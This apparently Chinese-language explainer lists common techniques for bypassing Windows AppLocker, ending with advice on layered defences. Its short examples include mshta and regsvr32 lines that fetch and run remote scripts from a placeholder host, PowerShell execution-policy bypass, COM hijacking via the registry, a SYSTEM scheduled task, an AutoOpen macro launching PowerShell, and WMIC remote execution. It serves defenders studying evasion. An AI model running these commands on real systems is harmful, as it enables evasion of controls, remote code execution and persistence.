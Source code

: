 AppLocker是一种Windows中的应用程序控制机制，允许管理员制定规则来控制哪些应用程序可以在用户的计算机上运行。尽管AppLocker是一个有效的安全工具，但攻击者仍然可能找到方法绕过其防御机制。以下是一些常见的AppLocker防御规避技术和详细的例子：

### 1. 使用允许列表中的漏洞
攻击者可以利用已被允许的应用程序（通常是可信的系统进程）来执行恶意代码。这些应用程序可能包括Windows内置的工具，如PowerShell、mshta.exe、regsvr32.exe等。

#### 例子：
- **PowerShell**：攻击者可以通过PowerShell脚本执行恶意代码，因为PowerShell通常被允许在AppLocker规则中运行。
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File malicious_script.ps1
  ```

- **mshta.exe**：使用mshta.exe运行恶意的HTML应用程序（HTA）文件。
  ```cmd
  mshta.exe http://example.com/malicious.hta
  ```

- **regsvr32.exe**：使用regsvr32.exe加载和执行恶意的COM脚本。
  ```cmd
  regsvr32.exe /s /n /u /i:http://example.com/file.sct scrobj.dll
  ```

### 2. DLL劫持
攻击者可以利用DLL劫持技术，将恶意DLL注入到被允许的应用程序中。当应用程序加载DLL时，恶意代码也会被执行。

#### 例子：
- 创建一个与目标应用程序相同的目录结构，并放置恶意DLL。当目标应用程序在启动时查找DLL时，优先加载攻击者提供的DLL。

### 3. 使用合法的脚本解释器
利用合法的脚本解释器（如cscript.exe或wscript.exe）执行恶意脚本。

#### 例子：
- **cscript.exe**：使用cscript.exe执行恶意的VBScript或JScript。
  ```cmd
  cscript.exe malicious_script.vbs
  ```

- **wscript.exe**：使用wscript.exe执行恶意的VBScript或JScript。
  ```cmd
  wscript.exe malicious_script.vbs
  ```

### 4. 利用特权提升漏洞
攻击者可以利用系统中存在的特权提升漏洞，绕过AppLocker规则。这些漏洞可以允许攻击者获得更高权限，从而绕过应用程序控制。

#### 例子：
- 利用操作系统中的已知漏洞，通过缓冲区溢出、提权漏洞等手段直接获取高权限并执行任意代码。

### 5. COM对象劫持
通过注册表修改，攻击者可以劫持COM对象，导致允许的应用程序在启动时执行恶意代码。

#### 例子：
- 修改注册表项，指向攻击者控制的DLL或可执行文件，使得合法应用程序在加载COM对象时执行恶意代码。
  ```reg
  [HKEY_CLASSES_ROOT\CLSID\{CLSID}\InprocServer32]
  @="C:\\Path\\To\\MaliciousDLL.dll"
  ```

### 6. 通过任务计划程序执行
利用Windows任务计划程序，攻击者可以创建计划任务，以系统权限执行恶意代码。

#### 例子：
- 使用schtasks创建一个计划任务，以特定用户权限运行恶意程序。
  ```cmd
  schtasks /create /tn "UpdateTask" /tr "C:\\Path\\To\\MaliciousExecutable.exe" /sc onlogon /ru "SYSTEM"
  ```

### 7. 使用非典型文件格式
攻击者可以使用非典型的文件格式，或将恶意代码嵌入到允许的文件格式中，诱导系统执行。

#### 例子：
- 在允许的文件类型中嵌入恶意代码，如将恶意宏嵌入到Word或Excel文件中。
  ```vbscript
  ' VBA Macro in Word document
  Sub AutoOpen()
      Call Shell("powershell.exe -ExecutionPolicy Bypass -File malicious_script.ps1")
  End Sub
  ```

### 8. 利用远程进程执行
攻击者可以通过远程技术在目标系统上执行代码，例如使用Windows管理工具（如WMIC）。

#### 例子：
- 使用WMIC在远程系统上执行命令。
  ```cmd
  wmic /node:"remote_computer" process call create "cmd.exe /c C:\\Path\\To\\MaliciousExecutable.exe"
  ```

这些例子展示了攻击者如何利用各种技术绕过AppLocker的防御。尽管AppLocker提供了强大的应用程序控制能力，但始终需要结合其他安全措施（如行为监控、异常检测、多因素认证等）来构建更加全面的防御体系。